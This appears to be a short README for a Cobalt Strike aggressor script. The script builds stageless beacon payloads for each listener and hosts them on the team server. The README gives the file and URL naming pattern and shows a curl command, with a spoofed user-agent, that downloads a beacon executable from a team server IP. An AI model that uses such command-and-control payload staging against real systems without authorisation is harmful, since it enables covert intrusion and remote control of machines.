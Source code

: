 # Cobalt Strike Payload Generators

It is designed to help quickly create payloads for testing

This aggressor script builds all stageless payload types for each current listener and optionally hosts the payloads on the HTTP server

Payloads Naming Syntax:

Filename:

`beacon_<type>_<listener name>_<arch>.<ext>`

URL:

`http://< teamserver IP >/payloads/beacon_<type>_<listener name>_<arch>.<ext>`

You can quickly curl the payloads

Example:

```
curl -A SOME_ALLOWED_USERAGENT http://192.168.1.100/payloads/beacon_http_http_x64.exe
```






